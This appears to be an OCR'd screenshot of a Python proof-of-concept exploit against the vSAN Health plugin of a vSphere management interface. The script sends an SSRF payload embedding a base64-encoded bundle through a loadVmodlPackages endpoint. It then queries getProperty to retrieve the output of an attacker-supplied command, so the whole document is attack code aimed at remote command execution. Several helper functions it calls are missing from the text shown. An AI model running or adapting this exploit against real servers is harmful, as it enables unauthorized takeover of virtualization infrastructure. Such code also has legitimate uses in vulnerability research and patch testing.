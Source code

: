 ```
def toBase64():
    with open('offline_bundle.zip', 'rb') as rf:
        return base64.b64encode(rf.read())

def poc1(url):
    ssrf_str = "https://localhost:443/vsanHealth/vum/driverOfflineBundle/data:text/html%3Bbase64,{}%23"
    ssrf = ssrf_str.format(bytes.decode(toBase64()))

    print ("[*] Get XML to SystemProperties  ...")
    target = url + "/ui/h5-vsan/rest/proxy/service/vmodlContext/loadVmodlPackages"

    data = {"methodInput":[[ssrf]]}

    r = requests.post(target, data=json.dumps(data), headers=headers, verify=False, proxies=proxies)


def poc2(url):

    print("[*] getProperty   ...")
    target = url + "/ui/h5-vsan/rest/proxy/service/systemProperties/getProperty"

    data = {"methodInput": ["output", None]}

    r = requests.post(target, data=json.dumps(data), headers=headers,
                      verify=False, proxies=proxies)
    if "result" in r.json():
        print("[+] Command:", cmd)
        print(r.json()['result'])
    else:
        print ("[-] send payload failed.")

headers = {"Content-Type": "application/json"}

def main(url):
    try:
        create_xml()
        create_zip()
        poc1(url)
        poc2(url)
    except:
        print("[-] send payload failed.")

if __name__ == '__main__':
    banner()
    try:
        target = sys.argv[1]
        cmd = sys.argv[2]
        up = urlparse(target)
        target = up.scheme + "://" + up.netloc
        main(target)
    except:
        print("Example: \n\tpython3 " + sys.argv[0] + " <target> <cmd>\n")
```
